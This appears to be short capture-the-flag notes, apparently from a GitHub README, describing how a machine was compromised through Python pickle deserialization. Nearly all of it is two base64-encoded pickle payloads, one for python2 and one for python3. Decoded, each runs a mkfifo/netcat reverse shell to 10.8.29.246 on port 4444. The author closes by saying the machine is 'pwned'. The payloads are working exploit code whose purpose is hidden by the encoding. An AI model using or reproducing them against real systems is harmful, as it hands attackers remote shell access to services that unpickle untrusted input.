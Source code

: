 ### some notes



- payload for python picke function for the reverse shell.
```
python2
Y3Bvc2l4CnN5c3RlbQpwMAooUydybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOC4yOS4yNDYgNDQ0NCA+IC90bXAvZicKcDEKdHAyClJwMwou
```
- Tried generating the payload in python3
```
python3
gANjcG9zaXgKc3lzdGVtCnEAWFkAAABybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOC4yOS4yNDYgNDQ0NCA+IC90bXAvZnEBhXECUnEDLg==
```
-  Done pwning the machine and it feels good.
